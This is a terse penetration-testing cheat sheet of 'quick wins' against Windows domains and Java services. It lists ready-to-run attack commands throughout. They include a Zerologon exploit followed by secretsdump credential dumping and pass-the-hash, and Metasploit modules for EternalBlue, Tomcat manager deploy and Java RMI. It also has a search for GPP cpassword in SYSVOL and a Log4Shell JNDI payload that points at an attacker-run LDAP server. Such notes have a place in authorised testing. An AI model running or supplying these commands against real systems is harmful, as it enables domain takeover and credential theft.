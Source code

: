 # Quick wins  
## zerologon (unsafe) - (CVE-2020-1472)  
  
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>  
secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator"   
secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>  
python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>  
  
## Eternal Blue  
MS17-010  
	exploit/windows/smb/ms17_010_eternalblue  
  
## SYSVOL & GPP  
MS14-025  
	use scanner/smb/smb_enum_gpp  
	findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml  
  
## tomcat/jboss manager  
	auxiliary/scanner/http/tomcat_enum  
exploit/multi/http/tomcat_mgr_deploy  
  
## java rmi  
	exploit/multi/misc/java_rmi_server  
  
## java serialized port  
	ysoserial  
  
## vulnerable product with cve  
	searchsploit  
  
## log4shell  
	${jndi:ldap://<ip>:<port>/o=reference}  
		rogueJndi-1.0.jar  
  
##database credentials  
	use admin/mssql/mssql_enum_sql_logins  
  
